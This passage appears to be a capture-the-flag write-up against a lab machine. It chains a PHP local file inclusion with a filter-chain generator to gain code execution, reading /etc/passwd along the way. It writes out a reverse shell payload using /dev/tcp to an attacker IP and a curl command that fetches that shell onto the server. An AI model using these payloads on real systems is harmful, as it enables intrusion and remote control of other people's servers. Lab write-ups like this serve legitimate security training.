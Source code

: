 
```bash
$ ./imageLFI.py
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin

...
```

It worked. I then tried to get a file from my machine. 

```python
'file_url' : "http://image.haxtabⓛⓔs.htb/actions/action_handler.php?page=http://10.10.14.8/rce.php"
```

This failed. [allow_url_include](https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include) must have been disabled.

I spent a lot of time trying to find PHP file to include that would allow me to run arbitrary code. Or find a way to write a file on the server. I did not find any.

Then I remembered the [PHP Filter Chain technique](https://github.com/synacktiv/php_filter_chain_generator). I cloned the generator repository to my machine and tried a simple command.

```bash
$ python3 php_filter_chain_generator.py --chain '<?php echo `id`; ?>'
[+] The following gadget chain will generate the following code : <?php echo `id`; ?> (base64 value: PD9waHAgZWNobyBgaWRgOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7 ... =php://temp
```

I used this filter chain as the page payload. 

```bash
$ ../imageLFI.py                                                     
b'uid=33(www-data) gid=33(www-data) groups=33(www-data)\n\x01\xb2B\x940\xf8\x00\xf4\x00\xf4>\x00=\x00=\x0f\x80\x0f@\x0fC\xe0\x03\xd0\x03\xd0\xf8\x00\xf4\x00\xf4>\x00=\x00=\x0f\x80\x0f@\x0fC\xe0\x03\xd0\x03\xd0\xf8\x00\xf4\x00\xf4>\x00=\x00=\x0f\x80\x0f@\x0fC\xe0\x03\xd0\x03\xd0\xf8\x00\xf4\x00\xf4>\x00=\x00=\x0f\x80\x0f@\x0fC\xe0\x03\xd0\x03\xd0\xf8\x00\xf4\x00\xf4>\x00=\x00=\x0f\x80\x0f@\x0fC\xe0\x03\xd0\x03\xd0\xf8\x00\xf4\x00\xf4>\x00=\x00=\x0f\x80\x0f@\x0fC\xe0\x03\xd0\x03\xd0\xf8\x00\xf4\x00\xf4>\x00=\x00=\x0f\x80\x0f@\x0f'
```

The result of the command was returned with some junk. 

Next, I wrote a small script to open a reverse shell and used the filter to download it on the server.

```bash
$ cat shell.php       
<?php
`bash -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'`;

$ python php_filter_chain_generator.py  --chain '<?php `curl 10.10.14.8/shell.php -o /tmp/shell.php`; ?>'
[+] The following gadget chain will generate the following code : <?php `curl 10.10.14.8/shell.php -o /tmp/shell.php`; ?> (base64 value: PD9waHAgYGN1cmwgMTAuMTAuMTQuOC9zaGVsbC5waHAgLW8gL3RtcC9zaGVsbC5waHBgOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7| ...

$ python -m http.server 80                                                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
